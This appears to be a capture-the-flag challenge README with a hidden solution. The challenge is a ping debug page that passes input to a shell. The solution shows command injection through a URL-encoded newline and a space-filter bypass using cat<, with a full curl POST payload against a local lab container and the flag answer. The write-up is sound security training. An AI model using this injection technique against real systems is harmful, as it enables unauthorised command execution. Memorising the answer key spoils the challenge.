 # Chall

### 📄 Description
Damn it, that stupid smart cat litter is broken again.
Now only the debug interface is available here and this stupid thing only permits one ping to be sent!
I know my contract number is stored somewhere on that interface but I can't find it and this is the only available page! Please have a look and get this info for me!

FYI No need to bruteforce anything there. If you do you'll be banned permanently.

We suggest to use "curl" for communicating with the host. 


### ⚙ How to run it
Be sure that the the entire folder has the right permissions.
To do it, open the terminal and write:
```bash
chmod -R +rx ./
```

To execute the exercise, do the following on the terminal:
```bash
sudo docker-compose up
```

### ⛔ Rules
You don't have access to `data` folder.

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>
    
* after a couple tries it becomes obvious that the input is passed to a shell but is more or less sanitized
* `%0a` (=> `\n`) isn't prohibited
* ` ` (space) is tho
* we can run `ls` in pwd but we can't check subfolders
* `find` to the rescue (if called without parameters it recursively lists directory starting from pwd)
* looks like the flag is in `./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag`
* we can't just `cat` it
* after some quick googling we should be able to do `cat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag`

<h3> 🚩 Flag </h3>

```
INS{warm_kitty_smelly_kitty_flush_flush_flush}
```
obtained by running `curl -s 'http://localhost:8090/index.cgi' -X POST --data-raw "dest=%0acat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag" | xidel -se "/html/body/pre" -`

</details>